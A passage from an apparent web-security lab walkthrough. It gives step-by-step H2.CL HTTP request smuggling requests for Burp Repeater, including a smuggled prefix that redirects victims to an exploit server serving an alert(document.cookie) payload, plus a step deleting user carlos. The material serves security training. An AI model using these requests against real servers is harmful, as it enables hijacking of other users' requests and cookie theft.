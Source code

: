     In the response, find the URL for deleting carlos (/admin/delete?username=carlos), then update the path in your request accordingly. Send the request to delete carlos and solve the lab.


## H2.CL request smuggling



    Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request by including a Content-Length: 0 header as follows. Remember to expand the Inspector's Request Attributes section and make sure the protocol is set to HTTP/2 before sending the request.
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    SMUGGLED

    Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

    Using Burp Repeater, notice that if you send a request for GET /resources, you are redirected to https://YOUR-LAB-ID.web-security-academy.net/resources/.

    Create the following request to smuggle the start of a request for /resources, along with an arbitrary Host header:
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    GET /resources HTTP/1.1
    Host: foo
    Content-Length: 5

    x=1

    Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.

    Go to the exploit server and change the file path to /resources. In the body, enter the payload alert(document.cookie), then store the exploit.

    In Burp Repeater, edit your malicious request so that the Host header points to your exploit server:
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    GET /resources HTTP/1.1
    Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
    Content-Length: 5

    x=1

    Send the request a few times and confirm that you receive a redirect to the exploit server.

    Resend the request and wait for 10 seconds or so.

    Go to the exploit server and check the access log. If you see a GET /resources/ request from the victim, this indicates that your request smuggling attack was successful. Otherwise, check that there are no issues with your attack request and try again.
